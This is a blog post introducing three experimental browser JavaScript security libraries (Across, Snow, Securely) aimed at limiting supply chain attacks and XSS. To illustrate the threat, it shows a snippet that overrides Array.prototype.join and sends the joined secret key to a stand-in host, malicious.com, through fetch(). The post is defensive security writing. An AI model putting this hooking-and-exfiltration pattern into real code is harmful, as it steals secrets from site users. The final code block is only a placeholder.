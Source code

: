 ```yaml
---
layout: page
title: My contribution attempt to the browser javascript supply chain attack problem
url: https://weizman.github.io/
date: 18/07/2021
description: Introducing Securely, Snow and Across to help fight browser javascript supply chain attacks
keywords: browser, javascript, supply chain attack, security, xss, securely, snow, across
---
```


### My contribution attempt to the browser javascript supply chain attack problem 

> *tl;dr - Today I share my "side project" for the past year, three browser javascript security libraries that aim to perform as
platforms for creating web apps that are more resilient to and limiting of unwanted code execution such as XSS and javascript supply chain attacks:*

#### [Across ↔](https://github.com/weizman/across)

Across standard allows different scripts within the same web application to communicate with each other by passing messages between one another securely.

[🎬 Live Demo](https://weizman.github.io/across/demo/) | 
[📖 Technical explanation](https://github.com/weizman/across/wiki/Introducing-Across#across-technically-explained) | 
[⚙️ Installation and usage](https://github.com/weizman/across#install) | 
[👩🏽‍💻 Source Code](https://github.com/weizman/across) | 
[💪🏻 Motivation behind this project](https://github.com/weizman/across/wiki/Introducing-Across)

#### [Snow ❄️](https://github.com/weizman/snow)

Snow aspires to standardize how to recursively own newborn windows within a browser webpage, from the context of the webpage itself.

[🎬 Live Demo](https://weizman.github.io/snow/demo/) | 
[📖 Technical explanation](https://github.com/weizman/snow/wiki/Introducing-Snow#why-snow-solves-a-non-trivial-problem) | 
[⚙️ Installation and usage](https://github.com/weizman/snow#usage) | 
[👩🏽‍💻 Source Code](https://github.com/weizman/snow) | 
[💪🏻 Motivation behind this project](https://github.com/weizman/snow/wiki/Introducing-Snow)

#### [Securely 🔒](https://github.com/weizman/securely)

Securely allows you to call native APIs using their original behaviour even if they were tampered within the web app.

[🎬 Live Demo](https://weizman.github.io/securely/demo/) | 
[📖 Technical explanation](https://github.com/weizman/securely#securely-technically-explained-whats-the-s-suffix-for) | 
[⚙️ Installation and usage](https://github.com/weizman/securely#usage) | 
[👩🏽‍💻 Source Code](https://github.com/weizman/securely)

**`Across` is built on top of `Snow`. Both `Across` and `Snow` are built on top of `Securely`.**

**⚠️ These technologies are currently experimental!**

### The [Supply Chain Attacks](https://www.google.com/search?q=javascript+website+supply+chain+attack) Problem

In general, the ability to execute unwanted code within a website is still a major problem.
Doing so with XSS is less common these days, but with infection of the supply chain web apps which is a rising issue, it's still very much possible.

To prevent such attacks, there are many different areas to defend. 
In my attempt, I focus on the real time prevention in the browser. 
Or in other words, what can attackers do once they successfully run within the website in the browser, and what I can do to make it harder for them?

#### [Securely 🔒](https://github.com/weizman/securely)

One thing attackers can do is to use the native option of javascript to override builtin functionalities and by that potentially have
the website legit code go through their malicious hooks and leak sensitive information:

```javascript
/* supply chain attack */

const desc = Object.getOwnPropertyDescriptor(Array.prototype, 'join');
const join = desc.value;
desc.value = function(separator) {
    const ret = join.call(this, separator);
    fetch('https://malicious.com/steal-key?key=' + ret);
    return ret;
}
Object.defineProperty(Array.prototype, 'join', desc);
```

```javascript
/* website legit code */

function constructKey() {
  const keyParts = getSecretKeyParts();
  const key = keyParts.join('-'); // this goes through attacker's hook!
  return key;
}
```

To that problem there are different approachs that are currently being pushed on.
For example, the approach taken by [Consensys](https://github.com/consensys) [MetaMask](https://github.com/metamask)'s [LavaMoat](https://github.com/lavamoat)
which runs on [Endo](https://github.com/endojs)'s [SES](https://github.com/endojs/endo) technology is the lockdown method, which is generally 
to freeze the ability to apply such hooks in the first place to prevent such attacks exactly.

A lax alternative to this approach is [Securely 🔒](https://github.com/weizman/securely).

Securely permits the web app and all js code that runs within it to apply such hooks out of belief that
these hooks are a legitimate and unseparatable part of the service provided by many third party vendors, especially in websites.

Instead, Securely allows you to declare what native functionalities you might need to use in your web app that you want to avoid any potential hooks
and grant you exculsive access to them when needed.

So to go back to the example above, if you need to use `Array.prototype.join` native API to safely construct your key, but still want to allow legitimate
js code in your website to hook it for whatever reason, you can use Securely to achieve that:

```javascript
EXAMPLE
```



